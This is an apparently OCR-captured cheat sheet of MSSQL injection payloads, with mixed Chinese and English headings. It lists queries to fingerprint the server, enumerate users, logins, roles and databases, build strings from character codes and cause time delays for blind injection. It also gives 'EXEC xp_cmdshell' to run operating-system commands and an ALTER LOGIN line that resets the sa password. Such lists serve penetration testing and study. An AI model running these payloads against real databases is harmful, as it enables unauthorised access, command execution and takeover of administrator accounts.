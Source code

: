 - ##### Version

  -   SELECT @@version

  -   SELECT SERVERPROPERTY(\'Edition\');

  -   SELECT SERVERPROPERTY(\'EngineEdition\');

- ##### Comment

  -   SELECT 1 \-- comment

  -   SELECT /\*comment\*/1

- ##### Space

  - ##### 0x01 - 0x20

- ##### 用户信息

  -   SELECT user_name()

  -   SELECT system_user

  -   SELECT user

  -   SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID

- ##### 用户权限

  -   select IS_SRVROLEMEMBER(\'sysadmin\')

  -   select IS_SRVROLEMEMBER(\'db_owner\')

- ##### List User

  -   SELECT name FROM master..syslogins

- ##### 数据库信息

  -   SELECT name FROM master..sysdatabases

  -   select concat_ws(table_schema,table_name,column_name) from information_schema.columns

  -   select quotename(name) from master..sysdatabases FOR XML PATH(\'\')

- ##### 执行命令

  -   EXEC xp_cmdshell \'net user\'

- ##### Ascii

  -   SELECT char(0x41)

  -   SELECT ascii(\'A\')

  -   SELECT char(65)+char(66) =\> return AB

- **Delay**

  - WAITFOR DELAY \'0:0:3\' pause for 3 seconds

- ##### Change Password

  -   ALTER LOGIN \[sa\] WITH PASSWORD=N\'NewPassword\'
